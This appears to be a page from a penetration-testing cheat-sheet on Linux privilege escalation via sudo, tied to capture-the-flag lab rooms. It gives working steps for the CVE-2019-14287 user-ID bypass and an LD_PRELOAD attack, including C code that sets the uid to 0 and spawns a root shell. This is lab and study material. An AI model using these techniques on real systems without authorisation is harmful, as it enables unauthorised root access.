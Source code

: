 # sudo

[Go back](../index.md#linux-privilege-escalation-)

An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) (1.9k ⭐).

<hr class="sep-both">

## Administrative privileges

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![picklerick](../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)
![nibbles](../../../_badges/htb-p/nibbles.svg)
![getsimplecms](../../../_badges/htb-p/getsimplecms.svg)

<div class="row row-cols-md-2"><div>

If you have [administrative privileges](/operating-systems/linux/_knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ldpreload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```
</div><div>

The second section is about your [sudoers](/operating-systems/linux/env/index.md#etcsudoers) rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo](gtfobins.md).

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
```

➡️ For instance, the user below can run `/bin/tar` as `root`.
</div></div>

<hr class="sep-both">

## sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

<div class="row row-cols-md-2"><div>

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>
</div></div>


<hr class="sep-both">

## LD_PRELOAD

[![linprivesc](../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)

<div class="row row-cols-md-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l`, then it means that the user can run some code before executing a command as administrator.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```bash!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!
</div></div>